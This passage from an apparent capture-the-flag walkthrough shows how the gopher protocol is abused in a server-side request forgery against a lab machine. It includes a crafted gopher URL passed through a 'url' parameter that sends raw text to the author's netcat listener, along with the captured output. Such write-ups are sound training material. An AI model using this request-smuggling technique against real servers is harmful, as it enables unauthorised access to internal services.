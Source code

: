 
SMTP is blocked as well. I could do some fuzzing from here, but the
thing I need to know is clear from the name of the box. Gopher is not
blocked:

![](/img/image-20231024171231847.png)

I'll look at the blocklist in [Beyond Root](#proxy-bad-words).

### Email Jocelyn

#### Gopher Background

[Gopher](https://en.wikipedia.org/wiki/Gopher_(protocol)) is a protocol
designed for interacting with documents over IP networks. It was an
alternative to HTTP when the internet first came into being, and
practically isn't used anymore.

What's cool about the `gopher` while hacking is that it doesn't use
headers or even newlines as part of the protocol. I'll include a single
character after the `/`, and then the rest of the URL is considered the
raw payload. For example, if I access the following URL:



    /index.php?url=gopher://10.10.14.6:80/_this%20is%20a%20test



What reached my `nc` is:



    oxdf@hacky$ nc -lnvp 80
    Listening on 0.0.0.0 80
    Connection received on 10.10.11.225 36342
    this is a test
